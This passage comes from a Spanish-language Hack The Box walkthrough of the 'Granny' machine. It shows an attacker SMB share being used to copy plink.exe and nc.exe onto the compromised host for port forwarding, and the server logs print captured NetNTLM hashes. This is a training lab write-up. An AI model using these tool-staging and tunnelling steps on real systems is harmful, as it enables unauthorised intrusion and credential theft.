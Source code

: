 Vemos que tiene el puerto 445 abierto de manera interna, así que vamos a aplicar un *Remote Port Forwarding* con la herramienta [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) descargando para la arquitectura x86. Nos compartimos un servidor SMB y transferimos el archivo:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1035)
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:ef434db551e7093b00000000000000000000000000000000:693edb5a9ff91cca86f1f6b11c6a63a5dd306ae6bd614486:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```

```bash
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
        1 file(s) copied.

C:\WINDOWS\Temp\Privesc>

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  04:10 AM    <DIR>          .
09/21/2021  04:10 AM    <DIR>          ..
09/21/2021  01:27 AM           646,384 plink.exe
               1 File(s)        646,384 bytes
               2 Dir(s)   1,338,937,344 bytes free

C:\WINDOWS\Temp\Privesc>
```

Antes de ejecutar el programa, vamos a transferir el archivo `nc.exe` a la máquina víctima:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1046)
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:aea8a26a51f500d900000000000000000000000000000000:4502c04aa604ecadea0a4a49d39d2102c825440e40371d4a:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```
